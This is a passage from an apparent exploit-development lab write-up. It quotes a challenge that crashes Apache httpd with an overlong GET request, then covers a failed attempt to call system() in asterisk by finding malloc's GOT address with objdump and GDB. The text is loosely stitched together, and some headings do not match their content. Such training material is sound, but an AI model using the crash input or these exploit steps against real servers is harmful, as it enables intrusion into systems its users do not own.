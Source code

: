 ```
and run it in console mode for convenient debugging.

SSH back into this system as root, using the password: x/64x$ESP

Shutdown Apache using:

httpd -k stop

Use GDB to debug httpd:

gdb httpd
(gdb) run -X

The following HTTP GET request will crash httpd:

GET /BBBBB...4123...BBBBBAAAA HTTP/1.0\r\n\r\n

Remember:

ONE DOES NOT SIMPLY
CONTROL EIP,
JUMP TO THE STACK,
AND EXECUTE SHELLCODE...

Good Luck!
```


# FAILS: What didnt work


## using system

I first wanted to use `system`, but realized it does not work because of
space characters in the string we want to execute with `system`. Spaces
are badchars.

### Find address of system

```
dobin@minime:~/Desktop/sip$ objdump -R asterisk | grep malloc
0815324c R_386_JUMP_SLOT   malloc@GLIBC_2.0
```

Note: the following commands need to be executed after malloc() get resolved by asterisk. So it is not enough just to do "gdb asterisk", but you have to attach to a running asterisk process.


addr of malloc in plt:
```
(gdb) x/1x 0x0815324c
0x815324c <malloc@got.plt>:	0xb7438160
```
